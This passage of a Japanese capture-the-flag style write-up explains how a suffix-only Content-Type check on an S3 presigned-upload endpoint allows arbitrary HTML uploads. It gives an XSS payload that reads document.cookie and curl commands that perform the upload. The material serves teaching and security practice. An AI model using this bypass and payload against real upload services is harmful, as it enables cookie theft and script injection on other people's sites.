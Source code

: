 ```typescript
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    ContentLength: request.body.length,
    ContentType: request.body.contentType,
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
    signableHeaders: new Set(['content-type', 'content-length']),
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
```

これらのチェックを通過した場合、`text/html;image/png`というように、`image/png`で終わる任意の文字列を指定することで、任意の HTML ファイルをアップロードすることが可能です。

### 攻略の糸口

このチャレンジでは、`contentType`の後方一致をチェックしていることがポイントとなります。

`text/html;image/png`というように、`image/png`で終わる任意の文字列を指定することで、任意の HTML ファイルをアップロードすることが可能です。

大まかな流れはシナリオ 1 と同様です。

以下の HTML ファイルを `xss.html` として保存します。

```html
<!-- xss.html -->
<html>
  <body>
    <script>
      document.getElementsByTagName('body')[0].innerHTML = `${document.cookie.split('=')[1]}`;
    </script>
  </body>
</html>
```

保存した HTML ファイルを用いて、以下のようなコマンドを実行します。

```sh
TARGET_HOST="....."
FILE=xss.html
LENGTH=$(stat -c %s $FILE)
URL=$(curl -X POST https://${TARGET_HOST}/api/upload \
  -H "Content-Type: application/json" \
  -d '{"contentType":"text/html;image/png","length":'$LENGTH'}') | jq -r '.url'
curl -X PUT $URL --upload-file $FILE -H "Content-Type: text/html;image/png"
```
